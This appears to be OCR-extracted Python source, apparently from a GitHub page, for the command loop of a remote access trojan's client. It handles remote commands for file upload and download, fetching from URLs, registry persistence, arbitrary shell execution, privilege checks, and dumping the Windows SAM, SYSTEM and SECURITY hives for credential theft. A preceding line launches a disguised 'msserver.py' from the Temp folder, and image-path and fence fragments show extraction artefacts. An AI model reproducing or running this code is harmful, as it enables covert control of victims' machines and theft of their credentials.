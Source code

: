 ``` command = "python.exe ""C:\Users\YourUsername\AppData\Local\Temp\msserver.py"""```

def shell():
    while True:
        command = reliable_recv()
        command = highly_secure_payload(command, 0)
        if command == "quit":
            break
        elif command == "background" or command == "bg":
            pass
        elif command == "help":
            pass
        elif command == "clear":
            pass
        elif command[:3] == "cd ":
            os.chdir(command[3:])
        elif command[:6] == "upload":
            download_file(command[7:])
        elif command[:8] == "download":
            upload_file(command[9:])
        elif command[:3] == "get":
            try:
                download_url(command[4:])
                reliable_send("[+] Downloaded File From Specified URL!")
            except:
                reliable_send("[!!] Download Failed!")
        elif command[:11] == "persistence":
            reg_name, copy_name = command[12:].split(" ")
            persist(reg_name, copy_name)
        elif command[:7] == "sendall":
            subprocess.Popen(
                command[8:],
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                stdin=subprocess.PIPE,
            )
        elif command[:5] == "check":
            try:
                is_admin()
                reliable_send(admin + " platform: " + platform)
            except:
                reliable_send("Cannot Perform Privilege Check! Platform: " + platform)
        elif command[:5] == "start":
            try:
                subprocess.Popen(command[6:], shell=True)
                reliable_send("[+] Started!")
            except:
                reliable_send("[-] Failed to start!")

        elif command[:12] == "get_sam_dump":
            sam_dump, system_dump, security_dump = get_sam_dump()
            reliable_send((sam_dump, system_dump, security_dump))
        else:

            execute = subprocess.Popen(
                command,
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                stdin=subprocess.PIPE
            )
            result = execute.stdout.read() + execute.stderr.read()
            result = result.decode()
```
